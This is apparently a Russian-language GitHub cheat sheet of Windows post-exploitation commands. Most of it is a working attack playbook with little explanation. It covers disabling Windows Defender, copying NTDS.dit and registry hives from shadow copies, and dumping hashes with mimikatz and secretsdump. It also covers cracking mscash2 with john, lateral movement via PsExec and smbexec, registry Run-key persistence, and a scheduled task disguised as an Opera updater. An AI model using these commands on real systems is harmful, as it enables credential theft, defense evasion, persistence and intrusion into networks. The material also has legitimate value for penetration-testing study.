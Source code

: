 # Up_windows
Отключить Дефендер

sc stop windefend

sc query windefend

Создание теневой копии диска

vssadmin create shadow /for=c:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy


Поиск секретов


cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config *.vbs


МИМИКАТЗ
мимикатз в метасплойт 

kiwi_cmd lsadump::sam


-----Распарсить SAM

python secretsdump.py -sam sam -system system LOCAL 

-----Распарсить NTDS.DIT

impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL >> text  

----- Получить 10 последних пользователей

Нужен system и security

reg save hklm\system c:\system 

reg save hklm\security c:\security

Подробнее: https://www.securitylab.ru/analytics/517178.php

и пытаемся крякнуть мскеш2

john --format=mscash2 --wordlist=/usr/share/wordlists/rockyou.txt filehash



Psexec -i \\192.168.50.200 -u administrator -s cmd.exe Привелигерованный режим... (если уже админ то ситем)
для psexec
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f




Автозагрузка.....
Если у вас права обычного пользователя, следует использовать ветку реестра HKCU

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
 
reg add "HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"



Если у вас есть админские права в системе, следует использовать ветку HKLM — в таком случае каждый раз при запуске системы будет выполняться payload.exe или dll. Этот способ хорош тем, что не зависит от пользователя, который логинится в систему.

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v payload /t REG_SZ /d "C:\tmp\payload.dll"
 
reg add “HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run” /v payload /t REG_SZ /d “C:\tmp\payload.exe”


Пример создания запланированной задачи:

schtasks /create /sc minute /mo 5 /tn "Opera scheduled Autoupdate 1594994248" /tr C:\tmp\Opera_autoupdate1594994248.exe

at 13:01 /interactive cmd запуск с правами администратора!!!

chcp 65001

psexec -i \\\adress -u user cmd

python smbexec.py ignite/administrator:Ignite@987@192.168.1.105

***************************************************************************************************************************************************
Cбор информации в домене 

net use * \\ta-d.local\NETLOGON - подключить сетевой диск

net accounts - парольная политика пользователя

net user /domain пользователи домена
Get-ADUser -identity administrator -properties *
Get-ADUser -identity administrator -properties memberof

net user administrator /domain в какие группы входит пользователь
net group "domain admins" кто входит в группы

Get-ADcomputer -filter * -properties * | ft nmae, ipv4adress компутеры в домене
net group "domain computer"


   Скрипты векторов повышения привелегий

cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config *.vbs

findstr /s /p /i /n /m "password" \\ta-d.local\SYSVOL\*.xml *.ini *.txt *.config *.vbs

Systeminfo - отображает подробную информацию о конфигурации компьютера и его операционной системы, включая конфигурацию операционной системы, информацию о безопасности, идентификатор продукта и свойства оборудования (например, ОЗУ, место на диске и сетевые карты).
Systeminfo перенаправил в текстовик, после этого я загрузил на Kali этот файл, и сейчас будем смотреть в него

Но перед этим нужно скачать exploit_suggester, например такой: GitHub - AonCyberLabs/Windows-Exploit-Suggester: This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.

https://github.com/HarmJ0y/PowerUp

!!! http://www.fuzzysecurity.com/tutorials/files/wmic_info.rar

!!! https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
  для которого import-module ./powerup.ps1 и затем Invoke-AllChecks

  
